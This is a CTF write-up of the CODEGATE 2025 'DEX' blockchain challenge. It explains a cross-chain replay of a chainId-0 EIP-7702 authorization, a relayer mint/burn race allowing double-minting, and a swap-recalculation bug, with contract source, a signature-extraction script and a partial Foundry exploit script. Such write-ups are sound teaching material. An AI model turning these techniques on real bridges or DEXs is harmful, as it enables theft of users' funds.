





Blockchain Writeup - Codegate Finals 2025
Blockchain Writeup - Codegate Finals 2025

Overview⌗
A few days ago, I had the opportunity to participate in the CODEGATE 2025 Finals CTF. I played with the team 🤬🇫🇷🛹🐻 (Pissed French Skateboarding Bears), and we managed to place 7th out of 20 teams!
In this blog post, I will provide a detailed walkthrough of DEX, an interesting cross-chain blockchain challenge that I managed to get first blood on!
Enjoy!
Challenges Overview⌗
| Challenge | Category | Solves |
|---|---|---|
| DEX | blockchain | 8 |
DEX - 8 solves 🩸⌗
DEX I love Web3.0, so I made cross chain dex :) nc 16.184.13.125 1337
We are provided with a zip file attachment which unzips into 2 main folders. I will briefly highlight the important files below, but we will go into more detail later as well.
src/contractsSetup.sol- Challenge setup, contains the requirements for solving the challenge through checks in
solve()function.
- Challenge setup, contains the requirements for solving the challenge through checks in
DEX.sol- Fixed-rate token swapping contract, facilitating swaps between three ERC20 tokens.
FaucetLogic.sol- Token faucet, contains
claimToken()function to claim tokens.
- Token faucet, contains
Token.sol- Normal ERC20 token, slightly modified so the contract owner can
mintandburntokens.
- Normal ERC20 token, slightly modified so the contract owner can
src/eth_sandboxlauncher.py- Deploys challenge contracts and sets up the challenge instance.
relayer.py- Cross-chain relayer (more on this later!)
To provide some context, there are two different chains, CODE chain and GATE chain. Contracts are deployed on both chains. The DEX contract is both a cross-chain message sender and receiver, allowing communication across chains facilitated through the relayer relayer.py.
Lets look at the Setup contract.
pragma solidity ^0.8.25;
import "./DEX.sol";
import "./Token.sol";
import "./FaucetLogic.sol";
contract Setup {
uint256 public constant CODE_CHAIN = 10;
uint256 public constant GATE_CHAIN = 100;
address public dex;
address public tokenA;
address public tokenB;
address public tokenC;
address public faucet;
address public faucetLogic;
bool public isSolved = false;
uint256 public constant DEX_SUPPLY = 600 ether;
constructor(address _faucet) {
faucetLogic = address(new FaucetLogic());
faucet = _faucet;
if(block.chainid == CODE_CHAIN) {
tokenA = address(new Token("CODE USDC", "cUSDC"));
tokenB = address(new Token("CODE PURR", "cPURR"));
tokenC = address(new Token("CODE MOODENG", "cMOODENG"));
} else {
tokenA = address(new Token("GATE USDC", "gUSDC"));
tokenB = address(new Token("GATE PURR", "gPURR"));
tokenC = address(new Token("GATE MOODENG", "gMOODENG"));
}
Token[] memory tokens = new Token[](3);
tokens[0] = Token(tokenA);
tokens[1] = Token(tokenB);
tokens[2] = Token(tokenC);
dex = address(new DEX(msg.sender, tokens));
Token(tokenA).mint(address(dex), DEX_SUPPLY);
Token(tokenB).mint(address(dex), DEX_SUPPLY);
Token(tokenC).mint(address(dex), DEX_SUPPLY);
Token(tokenA).transferOwnership(msg.sender);
Token(tokenB).transferOwnership(msg.sender);
Token(tokenC).transferOwnership(msg.sender);
}
function getToken() public {
if(block.chainid == GATE_CHAIN) {
Token(tokenA).transfer(faucet, 100 ether);
Token(tokenB).transfer(faucet, 100 ether);
Token(tokenC).transfer(faucet, 100 ether);
}
}
function solve() public {
require(block.chainid == CODE_CHAIN, "Can be solved only on CODE CHAIN");
require(Token(tokenA).balanceOf(msg.sender) >= DEX_SUPPLY * 2, "Not enough USDC");
require(Token(tokenB).balanceOf(msg.sender) >= DEX_SUPPLY * 2, "Not enough PURR");
require(Token(tokenC).balanceOf(msg.sender) >= DEX_SUPPLY * 2, "Not enough MOODENG");
isSolved = true;
}
}
It deploys three tokens, the DEX, and mints 600 of each token to the DEX. Some of its behaviour differs based on which chain it was deployed on:
getToken()transfers 100 of each token tofaucetif called on the GATE chain, otherwise it does nothing. Note that on the GATE chain this can only be called once, as the Setup contract only has 100 of each token.- To solve the challenge, we must call
solve()on the CODE chain. The solve requirement is that we have double of the initial DEX supply of each token, aka 1200 of each of the three tokens on the CODE chain.
Challenge first part - getting tokens from faucet⌗
Before we look at the DEX contract, let’s take a look into how we actually obtain the 100 tokens at the start. Notice that on the GATE chain, getToken() sends the tokens to faucet, not the player.
Looking at launcher.py, we see that faucet is actually an EOA (not a contract), which is surprising. However, it makes sense after I read the code and realised that faucet is using EIP-7702. This is a nice article detailing it.
Essentially, during challenge deployment, faucet sends a transaction with authorizationList set, essentially setting its own code to FaucetLogic.
def new_launch_instance_action(
do_deploy: Callable[[Web3, str, str, str, int], str],
) -> Action:
def action() -> int:
...
for i, node in enumerate(node_info):
...
faucet_logic_addr = setup_contract.functions.faucetLogic().call()
signed_auth = faucet_account.sign_authorization({
"chainId": 0,
"address": faucet_logic_addr,
"nonce": 0
})
...
if i == 0: ## CODE chain only
tx_dict["authorizationList"] = [signed_auth]
signed_tx = deployer_account.sign_transaction(tx_dict)
tx_hash = web3.eth.send_raw_transaction(signed_tx.raw_transaction)
...
It seems like we can just call claimToken() on the faucet on GATE chain to claim the tokens, right?
pragma solidity ^0.8.25;
import "./Token.sol";
contract FaucetLogic {
function claimToken(address _token) public {
Token(_token).transfer(msg.sender, Token(_token).balanceOf(address(this)));
}
}
It turns out, the transaction with authorizationList set is only for CODE chain, meaning on GATE chain, faucet is not using EIP-7702 and hence has no code. And the faucet only has tokens on GATE chain, not CODE chain.
if i == 0: ## CODE chain only
tx_dict["authorizationList"] = [signed_auth]
So what do we do?
My initial thought was that we had to do something related to a replay attack across the two different chains, but I didn’t quite know how that would work, since with the introduction of EIP-155, transaction hashes include the chain id to prevent replay attacks across different chains.
However, I noticed something strange when the authorization was being signed. Both the chain Id and nonce were both set to 0. It was surprising the chain Id wasn’t set to the CODE chain id.
signed_auth = faucet_account.sign_authorization({
"chainId": 0,
"address": faucet_logic_addr,
"nonce": 0
})
I wondered if there was any significance in the chain Id being 0 and found this which stated:
Special case of EOA
To express Ethereum account without reference to any specific EIP-155 chain ID, CAIP-10 identifiers can use the special chainId segment 0.
In the Ethereum account system, “externally owned accounts” (i.e. “offchain” wallets) are controlled by user agents and not by on-chain entities (i.e. deployed or deployable smart contract code). The special chainId 0 SHOULD only be used for accounts that can be used in off-chain contexts, i.e. without the use of an Ethereum node.
It sounded a bit confusing, but essentially, EIP-155 is ignored if chain Id 0 is used. Therefore, signed transactions with chain Id of 0 are replayable on any chain!
So we can set the authorization list of the faucet on GATE chain by getting the signed authorization on CODE chain, and replaying that on the GATE chain.
To send a transaction with EIP-7702 authorization list, we can use Foundry’s cast send with the --auth flag.
To retrieve and format the signed authorization, I asked ChatGPT to write a script to get the first transaction in the second block and encode it so I could pass the value straight to cast send.
from web3 import Web3
import rlp
from eth_utils import to_bytes, keccak, to_hex
# RLP list encoding expects all values in bytes or integers
class Authorization(rlp.Serializable):
fields = [
("chainId", rlp.sedes.big_endian_int),
("address", rlp.sedes.Binary.fixed_length(20)),
("nonce", rlp.sedes.big_endian_int),
("yParity", rlp.sedes.big_endian_int),
("r", rlp.sedes.big_endian_int),
("s", rlp.sedes.big_endian_int),
]
import os
# RPC endpoint
CODE_RPC = os.getenv("RPCURL_CODE")
w3 = Web3(Web3.HTTPProvider(CODE_RPC))
# Get block 0x2 and its transactions
block = w3.eth.get_block(2, full_transactions=True)
if not block["transactions"]:
print("❌ No transactions in block 0x2")
exit(1)
tx = block["transactions"][0]
if "authorizationList" not in tx or not tx["authorizationList"]:
print("❌ No authorizationList in first transaction")
exit(1)
auth = tx["authorizationList"][0]
# Extract fields
chain_id = int(auth["chainId"], 16)
address = bytes.fromhex(auth["address"][2:])
nonce = int(auth["nonce"], 16)
y_parity = int(auth["yParity"], 16)
r = int(auth["r"], 16)
s = int(auth["s"], 16)
# RLP encode the auth
auth_obj = Authorization(chain_id, address, nonce, y_parity, r, s)
encoded = rlp.encode(auth_obj)
auth_hex = to_hex(encoded)
print("✅ Foundry cast send --auth value:")
print(f"--auth {auth_hex}")
Then, we replay the signed authorization on the GATE chain to set the faucet code, allowing us to call claimToken() to get tokens.
As shown in the images above, we successfully set the code of faucet on GATE chain.
Challenge second part - Abusing cross-chain swapping behaviour⌗
Now let’s look at the DEX contract.
pragma solidity ^0.8.25;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./Token.sol";
contract DEX {
Token[] public tokens;
uint256 public constant CODE_CHAIN = 10;
uint256 public constant GATE_CHAIN = 100;
address public immutable relayer;
uint256[] public rates = [1_000_000, 200_000, 190_000];
mapping(bytes32 => address) public tokenMapping;
modifier onlyRelayer() {
require(msg.sender == relayer, "Only relayer");
_;
}
enum MessageType {
LiquidityRequest,
LiquidityResponse,
SwapRequest
}
struct Message {
MessageType messageType;
address from;
address receiver;
bytes32 srcToken;
bytes32 dstToken;
uint256 srcChainId;
uint256 dstChainId;
uint256 amount;
}
event MessageSent(Message message);
constructor(address _relayer, Token[] memory _tokens) {
relayer = _relayer;
tokens = _tokens;
tokenMapping[keccak256(abi.encodePacked("USDC"))] = address(tokens[0]);
tokenMapping[keccak256(abi.encodePacked("PURR"))] = address(tokens[1]);
tokenMapping[keccak256(abi.encodePacked("MOODENG"))] = address(tokens[2]);
}
function handleMessage(Message calldata message) external payable onlyRelayer {
assert(message.dstChainId == block.chainid);
if(message.messageType == MessageType.LiquidityRequest) {
emit MessageSent(Message({
messageType: MessageType.LiquidityResponse,
from: message.from,
receiver: message.receiver,
srcToken: message.srcToken,
dstToken: message.dstToken,
srcChainId: message.dstChainId,
dstChainId: message.srcChainId,
amount: message.amount
}));
} else if(message.messageType == MessageType.LiquidityResponse) {
// handled by relayer
} else if(message.messageType == MessageType.SwapRequest) {
_swap(address(this), message.receiver, message.amount, message.srcToken, message.dstToken);
} else {
revert("Invalid message type");
}
}
function swap(address receiver, bytes32 srcToken, bytes32 dstToken, uint256 amount, bool isCrosschain) external payable {
if(isCrosschain) {
_crossSwap(msg.sender, receiver, amount, srcToken, dstToken);
} else {
_swap(msg.sender, receiver, amount, srcToken, dstToken);
}
}
function _crossSwap(address from, address receiver, uint256 amount, bytes32 srcToken, bytes32 dstToken) internal {
Token srcTokenAddress = Token(tokenMapping[srcToken]);
srcTokenAddress.transferFrom(from, address(this), amount);
emit MessageSent(Message({
messageType: MessageType.SwapRequest,
from: from,
receiver: receiver,
srcToken: srcToken,
dstToken: dstToken,
srcChainId: block.chainid,
dstChainId: block.chainid == CODE_CHAIN ? GATE_CHAIN : CODE_CHAIN,
amount: amount
}));
}
function _swap(address from, address receiver, uint256 amount, bytes32 srcToken, bytes32 dstToken) internal {
uint256 rate = _getRate(srcToken, dstToken);
Token srcTokenAddress = Token(tokenMapping[srcToken]);
Token dstTokenAddress = Token(tokenMapping[dstToken]);
uint256 targetAmount = amount * rate / 1e6;
uint256 diffAmount = 0;
if(dstTokenAddress.balanceOf(address(this)) < targetAmount) {
diffAmount = targetAmount - dstTokenAddress.balanceOf(address(this));
targetAmount = dstTokenAddress.balanceOf(address(this));
amount = _getRate(dstToken, srcToken) * targetAmount / 1e6;
emit MessageSent(Message({
messageType: MessageType.LiquidityRequest,
from: address(this),
receiver: receiver,
srcToken: srcToken,
dstToken: dstToken,
srcChainId: block.chainid,
dstChainId: block.chainid == CODE_CHAIN ? GATE_CHAIN : CODE_CHAIN,
amount: diffAmount
}));
}
if(from != address(this)) {
srcTokenAddress.transferFrom(from, address(this), amount);
}
dstTokenAddress.transfer(receiver, targetAmount);
}
function _getRate(bytes32 srcToken, bytes32 dstToken) internal view returns (uint256) {
uint8 srcIdx = _getTokenIndex(srcToken);
uint8 dstIdx = _getTokenIndex(dstToken);
uint256 srcRate = rates[srcIdx];
uint256 dstRate = rates[dstIdx];
return (srcRate * 1e6) / dstRate;
}
function _getTokenIndex(bytes32 token) internal pure returns (uint8) {
if (token == keccak256(abi.encodePacked("USDC"))) return 0;
if (token == keccak256(abi.encodePacked("PURR"))) return 1;
if (token == keccak256(abi.encodePacked("MOODENG"))) return 2;
revert("Unknown token");
}
function getTokenAddress(string memory symbol) public view returns (address) {
return tokenMapping[keccak256(abi.encodePacked(symbol))];
}
}
The contract facilitates swapping between 3 tokens, USDC, PURR and MOODENG with constant rates.
The rates are:
- 1 USDC = 1 USDC
- 1 PURR = 0.2 USDC
- 1 MOODENG = 0.19 USDC
This is done through the swap function, which has a isCrosschain flag to specify whether the receiver would receive the tokens on the current chain, or the opposite chain, and calls _swap or _crossSwap respectively.
For example, you could swap 1 USDC on the GATE chain for 5 PURR on the CODE chain. You can also swap the same token, so you could swap 1 USDC on GATE chain for 1 USDC on CODE chain, essentially bridging the token.
Cross-chain messaging works as the DEX both acts as a cross-chain message sender and receiver. Cross-chain messages are sent through emitting MessageSent events, which are then processed by the relayer off-chain, and the relayer relays these messages to the DEX contract on the other chain by calling handleMessage.
async def listen_message_sent_async(src_contract, dst_contract, chain_id, tokens, stop_event):
event_filter = src_contract.events.MessageSent.create_filter(from_block='latest')
while not stop_event.is_set():
events = event_filter.get_new_entries()
if events:
for event in events:
event_args = event['args']
event_message = event_args['message']
print(f"[{'CODE' if chain_id == CODE_CHAIN else 'GATE'} Chain] MessageSent: {event_message}")
print(event_message)
if event_message['messageType'] == LiquidityRequest:
tx_hash = tokens[event_message['dstToken'].hex()].functions.mint(event_message['receiver'], event_message['amount']).transact()
elif event_message['messageType'] == LiquidityResponse:
tx_hash = tokens[event_message['dstToken'].hex()].functions.burn(event_message['from'], event_message['amount']).transact()
message_tuple = (
event_message['messageType'],
event_message['from'],
event_message['receiver'],
event_message['srcToken'],
event_message['dstToken'],
event_message['srcChainId'],
event_message['dstChainId'],
event_message['amount'],
)
tx_hash = dst_contract.functions.handleMessage(message_tuple).transact()
await asyncio.sleep(5)
Note that there are two relayers, one for relaying messages from CODE chain to GATE chain, and another for relaying GATE chain to CODE chain.
To illustrate this, let’s take a look at a diagram of what happens during a cross chain swap of GATE chain to CODE chain. Hopefully this will make things more clear.
Cross-chain liquidity handling⌗
Now, let’s consider the scenario where one DEX has insufficient liquidity, for example, swapping 130 USDC for 650 PURR when the DEX only has 600 PURR - what happens then?
If we look at the _swap() code, we see that there is logic to handle this case, when the target token amount is more than the DEX’s balance of the destination token.
When this is the case:
- the difference in tokens is calculated and used as the amount in the
LiquidityRequestcross chain message - the target amount is changed to the DEX’s token balance, essentially transferring the DEX’s entire token balance to the receiver
amountis recalculated to be based on the new target amount
function _swap(address from, address receiver, uint256 amount, bytes32 srcToken, bytes32 dstToken) internal {
uint256 rate = _getRate(srcToken, dstToken);
Token srcTokenAddress = Token(tokenMapping[srcToken]);
Token dstTokenAddress = Token(tokenMapping[dstToken]);
uint256 targetAmount = amount * rate / 1e6;
uint256 diffAmount = 0;
if(dstTokenAddress.balanceOf(address(this)) < targetAmount) {
diffAmount = targetAmount - dstTokenAddress.balanceOf(address(this));
targetAmount = dstTokenAddress.balanceOf(address(this));
amount = _getRate(dstToken, srcToken) * targetAmount / 1e6;
emit MessageSent(Message({
messageType: MessageType.LiquidityRequest,
from: address(this),
receiver: receiver,
srcToken: srcToken,
dstToken: dstToken,
srcChainId: block.chainid,
dstChainId: block.chainid == CODE_CHAIN ? GATE_CHAIN : CODE_CHAIN,
amount: diffAmount
}));
}
if(from != address(this)) {
srcTokenAddress.transferFrom(from, address(this), amount);
}
dstTokenAddress.transfer(receiver, targetAmount);
}
Let’s look into what the LiquidityRequest cross-chain message is for. Checking the relayer code, we see that upon receiving LiquidityRequest event, the relayer will mint the amount of specified tokens, in this case, the difference in the target output token amount and the DEX’s token balance.
The relayer then forwards this event to the other chain through calling handleMessage, which handles it by emitting LiquidityResponse. When the other relayer receives LiquidityResponse, it will burn the specified amount of tokens.
Essentially, the relayers will mint the receiver the missing tokens on the current, and burn that amount of tokens on the other chain.
The process is a bit confusing, so here’s another diagram to illustrate:
The numbers represent the block number order that the actions are performed in.
Bugs - Double minting and business logic errors⌗
You might already see the potential for some critical vulnerabilities - there is a delay between the mint and burn calls, allowing for a brief window where tokens are minted on the source chain, but are not yet destroyed on the destination chain.
Additionally, there is no check to see if the destination chain even contains enough liquidity - what happens in the above example if DEX on CODE chain contains less than 50 PURR?
As you might expect, the burn(DEX, 50) call will revert as the DEX does not have 50 tokens, and because the call reverted, the relayer would crash. Upon the relayer crashing, it does not start up again - the cross chain messaging breaks. What was more surprising was that both relayers would crash, not just the relayer whose call reverted.
There is also a bug in the _swap function - for some reason, in the insufficient liquidity case, the amount of source tokens transferred from the user is recalculated based on the DEX’s current destination token balance.
In the example in the diagram, when 130 USDC was swapped for 650 PURR and the DEX had 600 PURR, only $\frac{0.2}{1} \times 600 = 120$ USDC tokens were actually transferred from the user instead of $130$. This recalculation shouldn’t have happened at all, since we now own more than we put in, with 600 PURR transferred to us immediantly, then another 50 PURR minted via the relayer, all for the price of 120 USDC instead of 130 USDC.
Exploitation - implementing the attack⌗
Ok, we now have a bunch of bugs to exploit, but it turns out that actually implementing the exploits was kinda tricky.
Recall that we start with 100 USDC, 100 PURR, 100 MOODENG, and both DEXs on each chain starts with 600 USDC, 600 PURR, 600 MOODENG.
Also recall the exchange rates:
- 1 USDC = 1 USDC
- 1 PURR = 0.2 USDC
- 1 MOODENG = 0.19 USDC
To trigger the bugs, we need to perform a swap such that the DEX has insufficient destination tokens to fulfill our trade.
We barely have enough tokens for this to work:
- Swap 100 PURR -> 20 USDC
- Swap 100 MOODENG -> 19 USDC
- Swap 139 USDC -> 695 PURR
with all swaps done on the GATE chain (where we initially have tokens).
As 695 > 600, it seems like this will trigger the bugs, but remember we actually swapped 100 PURR for 20 USDC, therefore the DEX now has 700 PURR instead of 600, so it has sufficient liquidity for our swap.
We can work around this by doing the last swap of 139 USDC -> 695 PURR on the CODE chain by first bridging over the USDC then swapping. Since the CODE chain has 600 PURR, this is insufficient liquidity and will trigger the bug.
Note that because of the amount recalculation bug discussed previously, the swap of 139 USDC -> 695 PURR is actually 120 USDC -> 600 + 95 PURR.
Below is a diagram that illustrates these swaps:
But let’s take a moment to consider exploiting the other bugs we found - the lack of checks of sufficient liquidity on the other chain. For example, if there is 100 PURR on the GATE chain, and we have 200 PURR, swapping PURR for PURR will result in double-minting, as we only spend 100 PURR and receive 100 PURR back, but also get minted another 100 PURR by the relayer, now having 300 PURR.
However, we can’t repeat this process for larger amounts without crashing the relayer - the swap will burn the same amount of tokens we are minted on the opposite chain - if that chain doesn’t have sufficient liquidity, the burn call reverts and relayers for both chains crash.
Relayers crashing was especially annoying when I first tried this exploit, I could for example mint 1,000,000 MOODENG on CODE chain, but this would crash the relayers, and since there is insufficient USDC and PURR on the CODE chain DEX, I couldn’t solve the challenge this way - we have to use some method of moving and gaining tokens on one chain without crashing the relayer in the process.
Solving the challenge⌗
Actually implementing the solve scripts for this challenge was a pain, since for whatever reason, Foundry’s --skip-simulation doesn’t work. Since there was cross chain components involved, this meant that we had to run several parts of the solve script manually. For example, if we bridged USDC from GATE to CODE chain, then tried to swap our USDC on CODE chain, Foundry’s simulation of the script wouldn’t pass since it doesn’t simulation the off-chain relayer and thinks we have no tokens on CODE chain, therefore we had to seperate these parts.
Steps to solve the challenge:
- do the aforementioned swaps to move liquidity from GATE chain to CODE chain. We repeatedly swap USDC for PURR, then PURR to USDC, to move PURR tokens from the GATE chain to the CODE chain. Due to the amount recalculation bug, we can increase our swap amount by 19 USDC with each swap.
- once sufficient (>1200) PURR tokens are moved, we perform a similar process for the MOODENG tokens, but this time only 1 swap is required, as we already have enough USDC to buy 1200 MOODENG tokens. We thus receive 600 MOODENG from CODE DEX, and another 600 from GATE DEX
- finally, with all the liquidity moved to the CODE chain, we can use our double-minting bug to gain large amounts of USDC tokens, then use the USDC tokens to swap for PURR and MOODENG. The relayer crashes, but it doesn’t matter anymore at this point, since all the liquidity is moved to CODE chain and we don’t need to perform further cross-chain actions.
Solve script:
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import {Script, console} from "forge-std/Script.sol";
import {Counter} from "../src/Counter.sol";
import "../src/Setup.sol";
import "../src/FaucetLogic.sol";
import "../src/Token.sol";
import "../src/DEX.sol";
contract Solve is Script {
bytes32 USDC = keccak256(abi.encodePacked("USDC"));
bytes32 PURR = keccak256(abi.encodePacked("PURR"));
bytes32 MOO = keccak256(abi.encodePacked("MOODENG"));
Token tokenA_gate;
Token tokenB_gate;
Token tokenC_gate;
Token tokenA_code;
Token tokenB_code;
Token tokenC_code;
DEX dex_gate;
DEX dex_code;
uint privkey;
address myAddr;
FaucetLogic faucet;
Setup setup;
function setUp() public {
privkey = vm.envUint("PRIVKEY");
myAddr = vm.addr(privkey);
vm.createSelectFork(vm.envString("RPCURL_GATE"));
setup = Setup(address(vm.envAddress("SETUP")));
faucet = FaucetLogic(setup.faucet());
tokenA_gate = Token(setup.tokenA());
tokenB_gate = Token(setup.tokenB());
tokenC_gate = Token(setup.tokenC());
dex_gate = DEX(setup.dex());
vm.createSelectFork(vm.envString("RPCURL_CODE"));
tokenA_code = Token(setup.tokenA());
tokenB_code = Token(setup.tokenB());
tokenC_code = Token(setup.tokenC());
dex_code = DEX(setup.dex());
}
function run() public {
// claim tokens and approve
vm.createSelectFork(vm.envString("RPCURL_GATE"));
vm.startBroadcast(privkey);
faucet.claimToken(address(tokenA_gate));
faucet.claimToken(address(tokenB_gate));
faucet.claimToken(address(tokenC_gate));
tokenA_gate.approve(address(dex_gate), type(uint).max);
tokenB_gate.approve(address(dex_gate), type(uint).max);
tokenC_gate.approve(address(dex_gate), type(uint).max);
// swap all tokens to USDC and bridge to CODE chain
logBalances_gate();
console.log("swapping all for USDC and bridging");
dex_gate.swap(myAddr, PURR, USDC, 100 ether, false);
dex_gate.swap(myAddr, MOO, USDC, 100 ether, false);
dex_gate.swap(myAddr, USDC, USDC, 139 ether, true);
logBalances_gate();
vm.stopBroadcast();
}
function code_swap_usdc_purr_0() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
// approve
tokenA_code.approve(address(dex_code), type(uint).max);
tokenB_code.approve(address(dex_code), type(uint).max);
tokenC_code.approve(address(dex_code), type(uint).max);
// swap USDC for PURR
// and back
// draining GATE DEX liquidity
logBalances_code();
uint amount = 139 + 19 * 0;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_usdc_purr_1() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
// swap USDC for PURR
// and back
// draining GATE DEX liquidity
logBalances_code();
uint amount = 139 + 19 * 0;
dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
amount += 19;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_usdc_purr_2() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
uint amount = 139 + 19 * 1;
dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
amount += 19;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_usdc_purr_3() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
uint amount = 139 + 19 * 2;
dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
amount += 19;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_usdc_purr_4() public {
